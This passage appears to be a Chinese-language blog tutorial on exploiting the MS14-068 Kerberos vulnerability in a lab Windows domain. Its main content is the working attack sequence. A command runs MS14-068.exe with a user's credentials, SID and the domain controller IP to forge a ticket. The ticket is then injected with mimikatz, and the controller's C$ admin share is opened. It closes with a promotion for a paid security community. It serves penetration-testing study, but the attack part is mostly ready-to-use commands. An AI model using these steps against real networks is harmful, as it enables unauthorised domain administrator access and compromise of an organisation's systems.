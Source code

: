 

但是这里我们是直接获得了域管理员的哈希，这里只是演示下MS14-068漏洞的攻击手法



先获取需要利用的域用户的SID值



![](https://img-blog.csdnimg.cn/20191223224010324.png)



```
#生成票据TGT_administrator@god.org.ccache      
MS14-068.exe -u administrator@god.org -p Password@ -s S-1-5-21-2952760202-1353902439-2381784089-500 -d 192.168.52.138       #MS14-068.exe -u 域用户@dog.org -p 域用户密码 -s 域用户的SID -d 域控ip       
#在mimikatz中导入票据      
kerberos::ptc  TGT_administrator@god.org.ccache的路径       
然后再打开一个cmd窗口尝试访问域控      
dir \\192.168.52.138\c$
```




![](https://img-blog.csdnimg.cn/20191223223543120.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



 如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！[知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具](https://wx.zsxq.com/dweb2/index/group/88514121251242 "知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具")



![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)